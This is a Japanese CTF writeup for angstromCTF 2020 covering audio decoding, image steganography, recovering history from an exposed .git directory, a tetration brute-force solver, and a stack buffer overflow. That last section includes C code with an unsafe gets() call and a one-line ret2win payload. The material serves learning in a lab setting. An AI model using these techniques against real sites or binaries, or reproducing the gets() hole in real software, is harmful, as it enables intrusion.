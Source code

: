 ```yaml
---
title: angstromCTF 2020 Writeup
date: 2019-03-24
tags: ["CTF", "Writeup"]
excerpt: angstromCTF 2020 Writeup
---
```



# angstromCTF 2020 writeup
チームKUDoSで参加しました。  
参加した時点でチームの方々がcryptoとか解いてくれていたので、普段あまりやらないジャンルに手を付けるいい機会になったと思います。難易度も易しめでちょうどよかったです。  
## MISC
### PSK *90pts*
Only 31 bps!!とタイトルからググっていくと、PSK31( https://ja.wikipedia.org/wiki/PSK31 )が引っかかる。どうやらアマチュア無線の変調方式らしいです。  
ソフトを探して音を流すとflagを貰えました。  
`actf{hamhamhamhamham}`

### msd *140pts*
steganographyの問題。  
pythonのスクリプトと元画像`breathe.jpg`、処理が施された画像`output.png`が渡されます。  

スクリプトを見た感じ、
- flagをascii変換
- `breathe.jpg`の各ピクセルのRGB値を取得
- flagを一文字ずつ取得し、先ほど取得したピクセルパラメータをの最上位桁を置き換える
- 置き換えられたパラメータで新しい画像`output.png`を作成、出力

といった処理をしているようです。  
なのでそれぞれの画像のピクセルを取得し、その最上位桁からflagのascii値を取得します。
```py
output = Image.open('output.png')
image = Image.open('breathe.jpg')
outdata = []
for j in range(167):
    for i in range(301):
        for a in output.getpixel((i,j)):
            outdata.append(a)
imdata = []
for j in range(167):
    for i in range(301):
        for a in image.getpixel((i,j)):
            imdata.append(a)
enc = ""
for i in range(167*301):
    s = list(str(outdata[i]))[0]
    l = list(str(imdata[i]))[0]
    if len(str(outdata[i])) == len(str(imdata[i])):
        enc += s
    else:
        enc += "0"
```
戻しました。
actf{はasciiに変換すると9799116102123、}は125なので、それをもとに適当に探します。  
それっぽい箇所を発見：979911610212310511010497108101951011201049710810195101122112122454950514857981051031031211049798121125  
上記の処理した時の値が255以上になる場合、強制的に最上位桁は2になってしまうので復元が難しいかなとも思いましたが、この箇所はそのまま戻せばflagになりました。    
`actf{inhale_exhale_ezpz-12309biggyhaby}`

## WEB
### Git Good *70pts*
https://gitgood.2020.chall.actf.co/.git/refs/heads/master にアクセスするとファイルがダウンロードできるので、.gitが存在することが分かります。  
dvcs-ripperでダウンロードすると`thisisflag.txt`というファイルを発見できたものの、中身は`There used to be a flag here...`となっていました。  
おそらく以前のコミットまで戻れば見れそうなので、`.git/logs/HEAD`でhashを確認します。

```
0000000000000000000000000000000000000000 6b3c94c0b90a897f246f0f32dec3f5fd3e40abb5 aplet123 <jasonqan2004@gmail.com> 1583598444 +0000	commit (initial): haha I lied this is the actual initial commit
6b3c94c0b90a897f246f0f32dec3f5fd3e40abb5 e975d678f209da09fff763cd297a6ed8dd77bb35 aplet123 <jasonqan2004@gmail.com> 1583598464 +0000	commit: Initial commit
```
２つありました。最初のコミットに戻します。
```sh
git reset --hard 6b3c94c0b90a897f246f0f32dec3f5fd3e40abb5
cat thisistheflag.txt
```
今度こそflagでした。  
`actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}`


## CRYPTO
### Discrete Superlog *130pts*
時間内に解けず、翌日やっと解くことができました。  
ncすると以下の文が表示されます。  
```
We define a^^b to be such that a^^0 = 1 and a^^b = a^(a^^(b-1)), where x^y represents x to the power of y.
Given this, find a positive integer x such that a^^x = b mod p.
Generating challenge 1 of 10...
p = 1019271125739705316279
a = 1015925667949204155909
b = 602722157541271651690
Enter x:
```
演算子`^^`はテトレーションを行っているようです。テトレーションなんて人生で使ったことなかった…。  
hintが`just do it lmao`ということで、なんとなく総当たりで行けそうな気配がします。  

`a^^x == a^(a^^(x-1))`なので、今求めたい答えは`a^(a^^(x-1)) % p`です。  
また、フェルマーの小定理から`pow(a, x, p) == pow(a, x%φ(p), p)`なので、`a^^(x-1) % φ(p)`をφ(p)が1になるかxが0になるかまで繰り返せば`a^^x % p`が求まります。  
これがbと等しくなるまでxを増やして１つずつ調べていきます。  
```py
from sympy.ntheory.factor_ import totient

def get_mod(a,x,p):
    if p == 1 or x == 0:
        return 1
    return pow(a, get_mod(a, x-1, totient(p)), p)

p = 51831266554459153392984128647663219693921
a = 36612126156926215850089341284343533592108
b = 16363626835678867285668870188112986635199

x = 0
while True:
    if get_mod(a,x,p) == b:
        break
    x += 1

print(x)
```
上手いことncで受け取ったデータの切り分けができなかったので、問題を手動コピペする方式のソルバです。    
大体は数秒で答えが求まりましたが、そこそこ時間がかかりそうなこともあったので数回ncし直して問題ガチャしました。  
10回正解するとflagがもらえます。  
`actf{lets_stick_to_discrete_log_for_now...}`

## BINARY
### No Canary *50pts*
```c
// 省略
void flag() {
	system("/bin/cat flag.txt");
}

int main() {
	// 省略
	printf("What's your name? ");

	char name[20];
	gets(name);

	printf("Nice to meet you, %s!\n", name);
}
```
用意されたサーバにこんな感じのcのソースと実行ファイル、flag.txtがあります。  
20文字以上を投げつけるとsegmentation faultになり、バッファオーバーフローを引き起こせるので、村人A的な解法と予想。  
gdbでflag()のアドレスと、main()とnameのオフセットを確認するとそれぞれ`0x0000000000401186`と`40`でした。
```sh
(python -c "print 'a' * 40 + '\x86\x11\x40\x00\x00\x00\x00\x00';") | ./no_canary`
```
実行するとflagが表示されます。  
`actf{that_gosh_darn_canary_got_me_pwned!}`

